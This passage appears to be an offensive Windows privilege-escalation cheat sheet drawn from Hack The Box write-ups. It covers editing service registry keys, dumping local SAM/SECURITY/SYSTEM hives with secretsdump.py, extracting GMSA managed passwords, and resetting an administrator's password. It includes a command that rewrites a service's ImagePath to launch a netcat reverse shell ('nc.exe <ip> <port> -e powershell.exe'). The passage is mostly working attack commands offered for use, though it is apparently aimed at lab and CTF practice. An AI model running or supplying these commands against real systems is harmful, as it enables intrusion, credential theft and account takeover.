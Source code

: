 ## Edit service
```bat
:: Get info
sc query <service>
reg query HKLM\System\CurrentControlSet\Services\<service>

:: Edit info
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\<service>" /t <type> /v <value> /d <data> /f

:: Edit ImagePath and execute netcat command (assuming nc was uploaded before)
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\<service>" /t <type> /v ImagePath /d "nc.exe <ip> <port> -e powershell.exe" /f
```

### References
- [https://snowscan.io/htb-writeup-control/#](https://snowscan.io/htb-writeup-control/#)
- [https://steflan-security.com/windows-privilege-escalation-weak-permission/](https://steflan-security.com/windows-privilege-escalation-weak-permission/)

# Config files
Most config files can be found in `C:\Windows\System32\config`     

## Get info from registry hive
```bash
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

# GMSA and ReadGMSAPassword
Group Managed Service Accounts (GMSA) are where Windows servers manage the password for an account by generating a long random password for it.

## Get password
This solution is taken from: [https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password](https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password)
```powershell
# Get the password
$gmsa = Get-ADServiceAccount -Identity <user> -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp

# Save the password to variables
(ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword


# !!!!
# Reset password of admin if the compromised user has GenericAll permissions
$cred = New-Object System.Management.Automation.PSCredential <user>, $SecPass
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity <admin_user> -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'PASSWORD' -force)} -Credential $cred
```

